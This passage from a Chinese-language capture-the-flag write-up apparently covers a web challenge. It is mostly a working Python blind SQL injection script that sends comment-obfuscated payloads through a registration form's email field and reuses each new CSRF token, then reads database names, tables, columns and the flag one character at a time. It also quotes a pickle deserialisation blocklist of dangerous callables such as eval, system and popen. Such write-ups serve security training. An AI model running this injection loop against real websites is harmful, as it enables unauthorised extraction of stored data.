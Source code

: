 ```
database = "(SELECT/**/GROUP\_CONCAT(schema\_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA)"
tables = "(SELECT/**/GROUP\_CONCAT(table\_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION\_SCHEMA.TABLES/**/WHERE/**/TABLE\_SCHEMA=DATABASE())"
columns = "(SELECT/**/GROUP\_CONCAT(column\_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION\_SCHEMA.COLUMNS/**/WHERE/**/TABLE\_NAME=0x666c616161616167)"
data = "(SELECT/**/GROUP_CONCAT(flllllag/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/flaaaaag)"

for i in range(1,100):
    for j in range(32,127):
        payload = "test'/**/or/**/ascii(substr("+  data +",%d,1))=%d#/**/@chybeta.com" % (i,j)
        print payload
        post_data = {
            'csrf_token': token,
            'username': 'a',
            'email':payload,
            'password':'a',
            'password2':'a',
            'submit':'Register'
        }
        r = requests.post(url,data=post_data)
        soup = BeautifulSoup(r.text,"html5lib")
        token = soup.find_all(id='csrf_token')\[0\].get("value")
        if notice in r.text:
            result += chr(j)
            print result
            break
```
由于在注册部分有csrf\_token，因此在每次submit时要记得带上，同时在每次返回的页面中取得下一次的csrf\_token。

最后的flag：QWB{us1ng_val1dator_caut1ous}

#### 解法二

接着进行代码审计。在`others.py`的最后有这样的内容：
```
black\_type\_list = \[eval, execfile, compile, system, open, file, popen, popen2, popen3, popen4, fdopen,
                   tmpfile, fchmod, fchown, pipe, chdir, fchdir, chroot, chmod, chown, link,
                   lchown, listdir, lstat, mkfifo, mknod, mkdir, makedirs, readlink, remove, removedirs,
                   rename, renames, rmdir, tempnam, tmpnam, unlink, walk, execl, execle, execlp, execv,
                   execve, execvp, execvpe, exit, fork, forkpty, kill, nice, spawnl, spawnle, spawnlp, spawnlpe,
                   spawnv, spawnve, spawnvp, spawnvpe, load, loads\]

class FilterException(Exception):

    def \_\_init\_\_(self, value):
        super(FilterException, self).\_\_init\_\_(
            'the callable object {value} is not allowed'.format(value=str(value)))

def \_hook\_call(func):
    def wrapper(*args, **kwargs):
        print args\[0\].stack
        if args\[0\].stack\[-2\] in black\_type\_list:
            raise FilterException(args\[0\].stack\[-2\])
        return func(*args, **kwargs)
    return wrapper

def load(file):
    unpkler = Unpkler(file)
    unpkler.dispatch\[REDUCE\] = \_hook\_call(unpkler.dispatch\[REDUCE\])
```